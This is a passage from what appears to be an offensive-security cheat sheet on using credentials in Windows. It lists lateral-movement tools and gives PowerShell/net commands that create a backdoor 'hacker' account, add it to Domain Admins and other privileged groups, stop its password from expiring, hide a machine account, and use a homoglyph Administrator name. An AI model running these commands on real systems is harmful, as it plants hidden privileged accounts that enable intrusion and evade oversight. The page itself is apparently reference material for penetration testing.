 # Windows - Using credentials

## Summary

* [TIPS](#tips)
    * [TIP 1 - Create your credential](#tip-1-create-your-credential)
    * [TIP 2 - Retail Credential](#tip-2-retail-credential)
    * [TIP 3 - Sandbox Credential - WDAGUtilityAccount](#tip-3-sandbox-credrential-wdagutilityaccount)
* [Metasploit](#metasploit)
    * [Metasploit - SMB](#metasploit---smb)
    * [Metasploit - Psexec](#metasploit---psexec)
* [Remote Code Execution with PS Credentials](#remote-code-execution-with-ps-credentials)
* [WinRM](#winrm)
* [Powershell Remoting](#powershell-remoting)
* [Crackmapexec](#crackmapexec)
* [Winexe](#winexe)
* [WMI](#wmi)
* [Psexec.py / Smbexec.py / Wmiexec.py](#psexecpy--smbexecpy--wmiexecpy)
* [PsExec - Sysinternal](#psexec-sysinternal)
* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Netuse](#netuse)
* [Runas](#runas)
* [Pass the Ticket](#pass-the-ticket)
* [SSH](#ssh)

## TIPS

### TIP 1 - Create your credential

```powershell
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain

# enable a domain user account
net user hacker /ACTIVE:YES /domain

# prevent users from changing their password
net user username /Passwordchg:No

# prevent the password to expire
net user hacker /Expires:Never

# create a machine account (not shown in net users)
net user /add evilbob$ evilpassword

# homoglyph Aԁmіnistratοr (different of Administrator)
Aԁmіnistratοr
```
